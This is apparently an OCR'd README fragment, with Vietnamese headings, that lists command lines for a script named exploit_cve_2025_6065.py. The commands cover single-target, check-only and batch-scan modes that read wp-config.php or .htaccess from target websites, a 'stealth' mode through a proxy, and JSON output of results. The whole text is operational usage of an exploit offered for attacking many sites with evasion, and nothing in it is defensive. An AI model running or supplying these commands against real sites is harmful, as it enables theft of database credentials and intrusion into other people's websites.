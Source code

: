  +🧪 Cách sử dụng cơ bản:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd wp-config.php
+🔍 Chế độ kiểm tra plugin:
python3 exploit_cve_2025_6065.py --url https://target.com --check-only
+📂 Chế độ batch scan:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php
+targets.txt ví dụ:
https://target1.com
http://target2.com
+🕵️‍♂️ Chế độ stealth + Proxy:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd .htaccess --stealth --proxy http://127.0.0.1:8080
+🧾 Xuất kết quả ra JSON:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php --json-output result.json
